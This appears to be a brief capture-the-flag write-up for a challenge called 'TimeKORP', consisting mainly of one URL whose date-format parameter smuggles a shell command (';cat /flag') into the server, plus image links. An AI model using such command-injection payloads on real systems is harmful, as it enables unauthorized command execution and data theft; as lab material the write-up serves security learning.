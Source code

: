 # TimeKORP

```
http://94.237.62.240:40391/?format=%Y-%m-%d%27;cat%20/flag%27

```


![Photo](20240311195011.png)
